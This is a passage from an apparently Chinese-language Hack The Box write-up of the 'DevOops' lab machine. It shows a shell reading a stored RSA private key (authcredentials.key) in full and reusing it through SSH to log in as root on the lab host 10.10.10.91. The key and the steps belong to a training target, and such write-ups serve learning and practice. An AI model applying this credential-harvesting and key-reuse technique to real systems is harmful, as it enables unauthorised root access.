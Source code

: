 ```

查看秘钥
```
roosa@gitter:~/work/blogfeed/resources/integration$ cat authcredentials.key 
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
vr+5Ui0nD+YBKyYuiN+4CB8jSQvwOG+LlA3IGAzVf56J0WP9FILH/NwYW2iovTRK
nz1y2vdO3ug94XX8y0bbMR9Mtpj292wNrxmUSQ5glioqrSrwFfevWt/rEgIVmrb+
CCjeERnxMwaZNFP0SYoiC5HweyXD6ZLgFO4uOVuImILGJyyQJ8u5BI2mc/SHSE0c
F9DmYwbVqRcurk3yAS+jEbXgObupXkDHgIoMCwIDAQABAoIBAFaUuHIKVT+UK2oH
uzjPbIdyEkDc3PAYP+E/jdqy2eFdofJKDocOf9BDhxKlmO968PxoBe25jjjt0AAL
gCfN5I+xZGH19V4HPMCrK6PzskYII3/i4K7FEHMn8ZgDZpj7U69Iz2l9xa4lyzeD
k2X0256DbRv/ZYaWPhX+fGw3dCMWkRs6MoBNVS4wAMmOCiFl3hzHlgIemLMm6QSy
NnTtLPXwkS84KMfZGbnolAiZbHAqhe5cRfV2CVw2U8GaIS3fqV3ioD0qqQjIIPNM
HSRik2J/7Y7OuBRQN+auzFKV7QeLFeROJsLhLaPhstY5QQReQr9oIuTAs9c+oCLa
2fXe3kkCgYEA367aoOTisun9UJ7ObgNZTDPeaXajhWrZbxlSsOeOBp5CK/oLc0RB
GLEKU6HtUuKFvlXdJ22S4/rQb0RiDcU/wOiDzmlCTQJrnLgqzBwNXp+MH6Av9WHG
jwrjv/loHYF0vXUHHRVJmcXzsftZk2aJ29TXud5UMqHovyieb3mZ0pcCgYEAxR41
IMq2dif3laGnQuYrjQVNFfvwDt1JD1mKNG8OppwTgcPbFO+R3+MqL7lvAhHjWKMw
+XjmkQEZbnmwf1fKuIHW9uD9KxxHqgucNv9ySuMtVPp/QYtjn/ltojR16JNTKqiW
7vSqlsZnT9jR2syvuhhVz4Ei9yA/VYZG2uiCpK0CgYA/UOhz+LYu/MsGoh0+yNXj
Gx+O7NU2s9sedqWQi8sJFo0Wk63gD+b5TUvmBoT+HD7NdNKoEX0t6VZM2KeEzFvS
iD6fE+5/i/rYHs2Gfz5NlY39ecN5ixbAcM2tDrUo/PcFlfXQhrERxRXJQKPHdJP7
VRFHfKaKuof+bEoEtgATuwKBgC3Ce3bnWEBJuvIjmt6u7EFKj8CgwfPRbxp/INRX
S8Flzil7vCo6C1U8ORjnJVwHpw12pPHlHTFgXfUFjvGhAdCfY7XgOSV+5SwWkec6
md/EqUtm84/VugTzNH5JS234dYAbrx498jQaTvV8UgtHJSxAZftL8UAJXmqOR3ie
LWXpAoGADMbq4aFzQuUPldxr3thx0KRz9LJUJfrpADAUbxo8zVvbwt4gM2vsXwcz
oAvexd1JRMkbC7YOgrzZ9iOxHP+mg/LLENmHimcyKCqaY3XzqXqk9lOhA3ymOcLw
LS4O7JPRqVmgZzUUnDiAVuUHWuHGGXpWpz9EGau6dIbQaUUSOEE=
-----END RSA PRIVATE KEY-----

```


保存到本地，使用秘钥登录。成功提权到root
```
┌──(root💀kali)-[~/htb/DevOops]
└─# vim id_rsa2
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/htb/DevOops]
└─# chmod 600 id_rsa2 
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/htb/DevOops]
└─# ssh -i id_rsa2 root@10.10.10.91                             
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.
